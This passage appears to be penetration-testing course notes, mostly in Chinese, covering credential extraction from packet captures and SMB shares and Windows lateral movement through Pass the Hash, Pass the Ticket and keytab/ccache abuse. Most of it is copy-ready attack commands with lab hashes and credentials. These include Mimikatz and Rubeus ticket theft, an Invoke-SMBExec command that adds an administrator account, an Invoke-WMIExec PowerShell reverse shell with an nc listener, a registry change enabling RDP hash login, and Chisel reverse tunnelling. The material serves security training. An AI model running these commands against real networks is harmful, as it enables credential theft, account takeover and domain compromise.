RDPRDP with TLSWindows远程桌面
DNSDoH (DNS over HTTPS)域名解析
SMBSMB 3.0 over TLS文件/打印机共享
VNCVNC with TLS/SSL远程图形控制
```

------

### 三、Wireshark 使用

#### 常用过滤器

```
ip.addr == 56.48.210.13过滤特定IP地址的数据包
tcp.port == 80过滤特定端口（HTTP）
http过滤HTTP流量
dns过滤DNS流量
ftp过滤FTP流量
smtp过滤SMTP流量
icmp过滤ICMP（Ping）数据包
```

#### 高级过滤器

```
http.request.method == "POST"HTTP POST请求（可能含密码）
tcp.flags.syn == 1 && tcp.flags.ack == 0SYN包（检测扫描/连接尝试）
tcp.stream eq 53特定TCP流（追踪两主机会话）
eth.addr == 00:11:22:33:44:55特定MAC地址的数据包
ip.src == 192.168.24.3 && ip.dst == 56.48.210.3两个特定IP之间的流量
```

#### 搜索凭据

**方法一：显示过滤器**

```
http contains "passw"
http contains "password"
http contains "login"
http contains "user"
```

**方法二：手动搜索**

- 菜单：`Edit > Find Packet`
- 输入搜索字符串（如 "passw"、"password"）
- 选择搜索类型：String

**常见搜索关键词**：

- password, passwd, passw, pwd
- username, user, login
- credential, auth, token

------

### 四、Pcredz 工具

#### 功能

Pcredz 可从网络流量中自动提取以下凭据：

```
信用卡号支付卡信息
POP/SMTP/IMAP 凭据邮件服务凭据
FTP 凭据文件传输凭据
SNMP Community String网络设备管理字符串
HTTP 凭据NTLM/Basic认证、表单数据
NTLMv1/v2 哈希来自 DCE-RPC、SMB、LDAP、MSSQL、HTTP
Kerberos 哈希AS-REQ Pre-Auth (etype 23)
```

#### 使用方法

~~~bash
# 分析 pcap 文件
./Pcredz -f demo.pcapng -t -v

# 参数说明：
# -f  指定 pcap 文件
# -t  显示时间戳
# -v  详细输出
```

### 输出示例
```
[1746131482.601354] protocol: udp 192.168.31.211:59022 > 192.168.31.238:161
Found SNMPv2 Community string: s3cretString

[1746131482.658938] protocol: tcp 192.168.31.243:55707 > 192.168.31.211:21
FTP User: leaked_user
FTP Pass: qwerty123
```
~~~

### 五、实战流程

#### 1. 使用 Wireshark 分析
```
1. 打开 pcap 文件
2. 应用过滤器：http.request.method == "POST"
3. 搜索关键词：password, login, user
4. 检查 HTTP 表单数据
5. 跟踪 TCP 流查看完整会话
```

#### 2. 使用 Pcredz 快速提取

```bash
# 克隆仓库
git clone https://github.com/lgandx/Pcredz

# 运行分析
./Pcredz -f capture.pcapng -t -v
```

### 3. 关注的协议

```
协议Wireshark过滤器可能泄露的信息
HTTPhttp表单登录、Basic认证
FTPftp用户名/密码
SMTPsmtp邮件凭据
POP3pop邮件凭据
SNMPsnmpCommunity String
LDAPldap目录服务凭据
Telnettelnet明文登录信息
```

------

### 六、命令速查

```
用途命令/操作
Wireshark 过滤 HTTPhttp
过滤 POST 请求http.request.method == "POST"
搜索密码字段http contains "password"
过滤特定 IPip.addr == x.x.x.x
追踪 TCP 流右键 > Follow > TCP Stream
Pcredz 分析文件./Pcredz -f file.pcapng -t -v
```


## 5.2 Credential Hunting in Network Shares

#### MANSPIDER

If we don’t have access to a domain-joined computer, or simply prefer to search for files remotely, tools like [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) allow us to scan SMB shares from Linux. It's best to run `MANSPIDER` using the official Docker container to avoid dependency issues. Like the other tools, `MANSPIDER` offers many parameters that can be configured to fine-tune the search. A basic scan for files containing the string `passw` can be run as follows:

```shell-session
capybaralalale@htb[/htb]$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'

[+] MANSPIDER command executed: /usr/local/bin/manspider 10.129.234.121 -c passw -u mendres -p Inlanefreight2025!
[+] Skipping files larger than 10.00MB
[+] Using 5 threads
[+] Searching by file content: "passw"
[+] Matching files will be downloaded to /root/.manspider/loot
[+] 10.129.234.121: Successful login as "mendres"
[+] 10.129.234.121: Successful login as "mendres"
<SNIP>
```


# 6 Windows Lateral Movement Techniques

## 6.1 Pass the Hash (PtH)

### 一、概述

#### 什么是 Pass the Hash？

**Pass the Hash (PtH)** 是一种攻击技术，攻击者使用**密码哈希**而非明文密码进行身份认证。由于 NTLM 协议的特性，密码哈希在密码更改前保持不变，因此可以直接用于认证。

**核心优势**：无需破解哈希获取明文密码

------

#### 哈希获取途径

```
SAM 数据库本地账户哈希（需管理员权限）
NTDS.dit域控制器上的所有域用户哈希
LSASS 内存从 lsass.exe 进程提取
```

------

#### NTLM 协议特点Microsoft's [Windows New Technology LAN Manager (NTLM)](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)

- Windows 的 SSO（单点登录）解决方案
- 使用质询-响应协议验证身份
- **密码哈希不加盐**（unsalted）→ 可直接用于认证
- 虽然 Kerberos 是现代 AD 默认认证机制，但 NTLM 仍广泛用于兼容性

------

### 二、Windows 工具

#### 1. [Mimikatz](https://github.com/gentilkiwi)

**模块**：`sekurlsa::pth`

**必需参数**：

```
/user要模拟的用户名
/rc4 或 /NTLM用户的 NTLM 哈希
/domain域名（本地账户可用计算机名、localhost 或 .）
/run要运行的程序（默认 cmd.exe）
```

**命令示例**：

```cmd
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

**结果**：打开一个以目标用户身份运行的 cmd 窗口，可访问该用户有权限的资源。

------

#### 2. [Invoke-TheHash (PowerShell)](https://github.com/Kevin-Robertson/Invoke-TheHash)

**特点**：

- 使用 WMI 或 SMB 执行命令
- 客户端不需要本地管理员权限
- 目标用户需要在目标机器上有管理员权限

**参数**：

```
-Target目标主机名或 IP
-Username认证用户名
-Domain域名
-HashNTLM 哈希（支持 LM:NTLM 或纯 NTLM 格式）
-Command要执行的命令
```

##### SMB 方式执行命令

```powershell
cd C:\tools\Invoke-TheHash\
Import-Module .\Invoke-TheHash.psd1

# 创建用户并加入管理员组
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

##### WMI 方式获取反弹 Shell

**Step 1**：启动监听

```powershell
.\nc.exe -lvnp 8001
```

**Step 2**：生成 PowerShell 反弹 Shell

（使用 revshells.com）To create a simple reverse shell using PowerShell, we can visit [revshells.com](https://www.revshells.com/), set our IP `172.16.1.5` and port `8001`, and select the option `PowerShell #3 (Base64)`, as shown in the following image.

**Step 3**：执行

```powershell
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <Base64编码的payload>"
```

------

### 三、Linux 工具

#### 1. [Impacket 套件](https://github.com/SecureAuthCorp/impacket)

##### impacket-psexec

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

**其他可用工具**：

- impacket-wmiexec. https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
- impacket-atexec. https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py
- impacket-smbexec. https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py

------

#### 2. NetExec

##### 批量扫描（密码喷洒）

```bash
# 扫描整个子网，查找可认证的主机
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

# 使用本地账户认证
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth
```

**输出解读**：

- `[+]` 和 `(Pwn3d!)` → 认证成功且有本地管理员权限
- `[-]` 和 `STATUS_LOGON_FAILURE` → 认证失败

##### 执行命令

```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

**注意**：密码喷洒可能触发账户锁定策略，建议使用 `--local-auth` 进行单次尝试。

------

#### 3. Evil-WinRM

**适用场景**：SMB 被阻止或需要 PowerShell 远程访问时

```bash
# 本地账户
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

# 域账户（需包含域名）
evil-winrm -i 10.129.201.126 -u administrator@inlanefreight.htb -H 30B3783CE2ABF1AF70F77D0660CF3453
```

------

#### 4. xfreerdp (RDP PtH)

**前提条件**：目标必须启用 **Restricted Admin Mode**（默认禁用）

##### 在目标上启用 Restricted Admin Mode

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

##### 执行 RDP PtH

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

------

### 四、UAC 对 PtH 的限制

#### LocalAccountTokenFilterPolicy

```
注册表值说明
0（默认）仅内置 Administrator 账户（RID-500）可远程管理
1所有本地管理员都可远程管理
```

**位置**：`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`

#### FilterAdministratorToken

```
状态说明
禁用（默认）RID-500 账户不受 UAC 限制
启用（值为1）RID-500 账户也受 UAC 限制，PtH 会失败
```

**重要**：这些限制仅适用于**本地账户**。域管理员账户不受影响。

------

### 五、命令速查表

#### Windows

```
工具命令
Mimikatzmimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<domain> /run:cmd.exe" exit
Invoke-SMBExecInvoke-SMBExec -Target <ip> -Domain <domain> -Username <user> -Hash <hash> -Command "<cmd>"
Invoke-WMIExecInvoke-WMIExec -Target <ip> -Domain <domain> -Username <user> -Hash <hash> -Command "<cmd>"
启用 RDP PtHreg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Linux

```
工具命令
impacket-psexecimpacket-psexec <user>@<ip> -hashes :<NThash>
impacket-wmiexecimpacket-wmiexec <user>@<ip> -hashes :<NThash>
netexec 扫描netexec smb <ip/range> -u <user> -d . -H <hash>
netexec 执行netexec smb <ip> -u <user> -d . -H <hash> -x "<cmd>"
evil-winrmevil-winrm -i <ip> -u <user> -H <hash>
xfreerdpxfreerdp /v:<ip> /u:<user> /pth:<hash>
```

## 6.2 Pass the Ticket (PtT) from Windows

### 一、概述

#### 什么是 Pass the Ticket？

**Pass the Ticket (PtT)** 是一种横向移动技术，使用**窃取的 Kerberos 票据**（而非 NTLM 哈希）进行身份认证和访问资源。

------

#### Kerberos 协议回顾

```
TGT Ticket Granting Ticket  首次认证后获得，用于请求其他服务票据
TGS Ticket Granting Service 用于访问特定服务（如 MSSQL、文件共享）
```

**认证流程**：`Key Distribution Center` (`KDC`),

1. 用户用密码哈希加密时间戳 → 发送给 DC
2. DC 验证后返回 **TGT**
3. 用户用 TGT 向 KDC 请求 **TGS**
4. 用 TGS 访问目标服务

**关键点**：获得 TGT 后，无需再提供密码即可请求任何服务票据。

------

#### PtT 攻击可用的票据

```
TGS 访问特定资源
TGT 请求任意服务票据，访问用户有权限的所有资源
```

------

### 二、票据收集

#### Windows 票据存储

票据由 **LSASS** 进程处理和存储：

- 普通用户：只能获取自己的票据
- 本地管理员：可收集所有票据

------

#### 方法一：Mimikatz 导出票据

```cmd
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```

**结果**：生成 `.kirbi` 文件

**文件名格式**：

- `[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
- `$` 结尾 → 计算机账户票据
- `@krbtgt` → TGT 票据

------

#### 方法二：Rubeus 导出票据

```cmd
Rubeus.exe dump /nowrap
```

**结果**：Base64 格式票据（便于复制粘贴）

------

#### 提取 Kerberos 密钥

```cmd
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

**输出密钥类型**：

- `aes256_hmac` - AES-256 密钥（推荐使用）
- `rc4_hmac_nt` - NTLM 哈希（可能被检测为降级攻击）

------

### 三、Pass the Key / OverPass the Hash

#### 概念

将哈希/密钥转换为完整的 TGT 票据，然后用于认证。

------

#### Mimikatz 方式

```cmd
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

**注意**：需要管理员权限

------

#### Rubeus 方式

```cmd
# 使用 AES-256 密钥（推荐）
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

# 使用 RC4/NTLM 哈希
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /nowrap
```

**优势**：不需要管理员权限

**注意**：使用 RC4（NTLM）可能被检测为"加密降级"攻击，建议使用 AES 密钥。

------

### 四、Pass the Ticket 攻击

#### Rubeus - 请求并导入票据

```cmd
# /ptt 自动导入票据到当前会话
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

------

#### Rubeus - 导入已有票据

```cmd
# 导入 .kirbi 文件
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

# 导入 Base64 票据
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaED...
```

------

#### Mimikatz - 导入票据

```cmd
mimikatz.exe
privilege::debug
kerberos::ptt "C:\path\to\ticket.kirbi"
exit
```

------

#### 验证票据导入

```cmd
# 访问目标资源
dir \\DC01.inlanefreight.htb\c$
```

------

#### .kirbi 转 Base64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))
```

------

### 五、PowerShell Remoting + PtT

#### 端口

```
HTTP TCP/5985
HTTPS TCP/5986
```

#### 权限要求

- 管理员权限，或
- Remote Management Users 组成员，或
- 显式 PS Remoting 权限

------

#### Mimikatz + PowerShell Remoting

```cmd
# 1. 导入票据
mimikatz.exe
privilege::debug
kerberos::ptt "C:\path\to\ticket.kirbi"
exit

# 2. 启动 PowerShell
powershell

# 3. 连接远程主机
Enter-PSSession -ComputerName DC01
```

------

#### Rubeus + PowerShell Remoting

```cmd
# 1. 创建牺牲进程（避免覆盖现有票据）
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# 2. 在新窗口中请求并导入票据
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

# 3. 启动 PowerShell 并连接
powershell
Enter-PSSession -ComputerName DC01
```

**createnetonly 作用**：创建新的登录会话（Logon type 9），防止覆盖当前会话的 TGT。

------

### 六、命令速查表

#### 票据收集

```
工具命令
Mimikatz 导出票据sekurlsa::tickets /export
Mimikatz 提取密钥sekurlsa::ekeys
Rubeus 导出票据Rubeus.exe dump /nowrap
```

#### Pass the Key / OverPass the Hash

```
工具命令
Mimikatz     sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<hash>
Rubeus (AES) Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<key> /nowrap
Rubeus (RC4) Rubeus.exe asktgt /domain:<domain> /user:<user> /rc4:<hash> /nowrap
```

#### Pass the Ticket

```
工具命令
Rubeus 导入文件    Rubeus.exe ptt /ticket:<file.kirbi>
Rubeus 导入       Base64Rubeus.exe ptt /ticket:<base64>
Rubeus 请求+导入   Rubeus.exe asktgt /user:<user> /rc4:<hash> /ptt
Mimikatz 导入      kerberos::ptt "<path\to\ticket.kirbi>"
```

#### PowerShell Remoting

```
操作命令
创建牺牲进程  Rubeus.exe createnetonly /program:"cmd.exe" /show
连接远程主机  Enter-PSSession -ComputerName <target>
```

------

### 七、PtH vs PtT 对比

```
特性Pass the HashPass the Ticket
使用凭据NTLM 哈希Kerberos 票据
协议NTLMKerberos
检测难度较易检测相对难检测
适用场景SMB、WMI、RDP 等任何 Kerberos 服务
票据有效期无限（直到密码更改）通常 10 小时（可续期）
```

------

### 八、注意事项

- **AES vs RC4**：现代 AD（2008+）默认使用 AES，使用 RC4 可能触发降级攻击检测
- **票据有效期**：TGT 通常 10 小时有效，7 天内可续期
- **权限要求**：Mimikatz 的 sekurlsa 模块需要管理员权限，Rubeus 的 asktgt 不需要
- **牺牲进程**：使用 `createnetonly` 避免覆盖当前会话票据

## 6.3 Pass the Ticket (PtT) from Linux

### 一、概述

Linux 系统也可以加入 Active Directory 域，使用 Kerberos 进行认证。如果攻陷了域加入的 Linux 机器，可以寻找 Kerberos 票据来冒充其他用户。

------

### 二、Linux 上的 Kerberos 票据存储



#### 关键环境变量

```bash
# 查看当前票据缓存位置
env | grep -i krb5
# 输出示例：KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

------

### 三、识别 Linux 是否加入域

#### 方法一：realm 命令

```bash
realm list
```

**输出信息**：

- 域名、认证类型
- 允许登录的用户和组
- 客户端软件（sssd/winbind）

#### 方法二：检查服务进程

```bash
ps -ef | grep -i "winbind\|sssd"
```

------

### 四、查找 Kerberos 票据

#### 查找 KeyTab 文件

```bash
# 按文件名搜索
find / -name *keytab* -ls 2>/dev/null

# 检查 crontab 中的脚本
crontab -l
cat /path/to/script.sh  # 查找 kinit 命令和 keytab 引用
```

**常见位置**：

- `/etc/krb5.keytab` - 计算机账户的 keytab（root 可读）
- 用户自定义位置 - 脚本中使用的服务账户 keytab

#### 查找 ccache 文件

```bash
# 检查环境变量
env | grep -i krb5

# 列出 /tmp 中的票据
ls -la /tmp | grep krb5cc
```

**注意**：

- 普通用户只能读取自己的 ccache
- root 可以读取所有用户的 ccache

------

### 五、滥用 KeyTab 文件

#### 查看 KeyTab 信息

~~~bash
klist -k -t /opt/specialfiles/carlos.keytab
```

**输出**：
```
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
~~~

#### 使用 KeyTab 冒充用户

```bash
# 查看当前票据
klist

# 导入 keytab（注意大小写）
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

# 验证票据已更换
klist

# 访问资源
smbclient //dc01/carlos -k -c ls
```

**提示**：在导入新 keytab 前，备份当前 ccache 文件以保留原有票据。

#### 从 KeyTab 提取哈希

~~~bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
```

**输出**：
```
REALM : INLANEFREIGHT.HTB
SERVICE PRINCIPAL : carlos/
NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
~~~

**用途**：

- NTLM 哈希 → Pass the Hash 攻击或破解密码
- AES 哈希 → 伪造票据或破解密码

------

### 六、滥用 ccache 文件

#### 前提条件

需要 root 权限来读取其他用户的 ccache 文件。

#### 查找可用票据

```bash
# 列出所有 ccache 文件
ls -la /tmp | grep krb5cc

# 检查用户组成员身份
id julio@inlanefreight.htb
```

#### 导入 ccache 票据

```bash
# 查看当前状态（无票据）
klist

# 复制目标用户的 ccache
cp /tmp/krb5cc_647401106_I8I133 /root/

# 设置环境变量
export KRB5CCNAME=/root/krb5cc_647401106_I8I133

# 验证票据
klist

# 使用票据访问资源
smbclient //dc01/C$ -k -c ls -no-pass
```

**注意**：检查票据的 "Valid starting" 和 "Expires" 时间，过期票据无法使用。

------

### 七、Linux 攻击工具与 Kerberos

#### 环境准备（非域成员机器）

**1. 配置 /etc/hosts**

```bash
# 添加域名解析
172.16.1.10 inlanefreight.htb dc01.inlanefreight.htb dc01
172.16.1.5  ms01.inlanefreight.htb ms01
```

**2. 配置代理（如需要）**

```bash
# 配置 proxychains
cat /etc/proxychains.conf
# [ProxyList]
# socks5 127.0.0.1 1080

# 启动 Chisel 服务端
sudo ./chisel server --reverse

# 在跳板机启动客户端
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

**3. 设置票据环境变量**

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

##### Impacket 工具

```bash
# 使用 Kerberos 认证（-k 参数，使用主机名非 IP）
proxychains impacket-wmiexec dc01 -k

# 如果需要，添加 -no-pass
proxychains impacket-psexec dc01 -k -no-pass
```

##### Evil-WinRM

**安装 Kerberos 包**：

bash

```bash
sudo apt-get install krb5-user -y
```

**配置 /etc/krb5.conf**：

ini

```ini
[libdefaults]
    default_realm = INLANEFREIGHT.HTB

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
```

**使用**：

```bash
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

------

### 八、票据格式转换

#### ccache ↔ kirbi 转换

```bash
# ccache → kirbi（用于 Windows）
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

# kirbi → ccache（用于 Linux）
impacket-ticketConverter julio.kirbi julio.ccache
```

#### 在 Windows 上导入转换后的票据

```cmd
Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

------

### 九、Linikatz 工具

**功能**：Linux 版 Mimikatz，自动提取域加入 Linux 机器上的所有凭据

```bash
# 下载并执行（需要 root）
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
chmod +x linikatz.sh
./linikatz.sh
```

**支持的集成**：

- FreeIPA
- SSSD
- Samba
- Vintella
- PBIS

**输出**：在 `linikatz.*/` 目录下生成 ccache 和 keytab 文件

------

### 十、命令速查表

#### 票据查找

```
检查域加入状态realm list
查找 keytab 文件find / -name *keytab* -ls 2>/dev/null
查看 ccache 位置env | grep -i krb5
列出 /tmp 中票据ls -la /tmp | grep krb5cc
```

#### KeyTab 操作

```
查看 keytab 信息klist -k -t /path/to/file.keytab
使用 keytab 认证kinit user@REALM -k -t /path/to/file.keytab
提取 keytab 哈希python3 keytabextract.py /path/to/file.keytab
```

#### ccache 操作

```
查看当前票据klist
设置票据缓存export KRB5CCNAME=/path/to/ccache
使用票据访问 SMBsmbclient //server/share -k -c ls -no-pass
```

#### 票据转换

```
ccache → kirbiimpacket-ticketConverter file.ccache file.kirbi
kirbi → ccacheimpacket-ticketConverter file.kirbi file.ccache
```

#### 攻击工具

```
Impacketproxychains impacket-wmiexec dc01 -k -no-pass
Evil-WinRMproxychains evil-winrm -i dc01 -r inlanefreight.htb
Linikatz./linikatz.sh
```
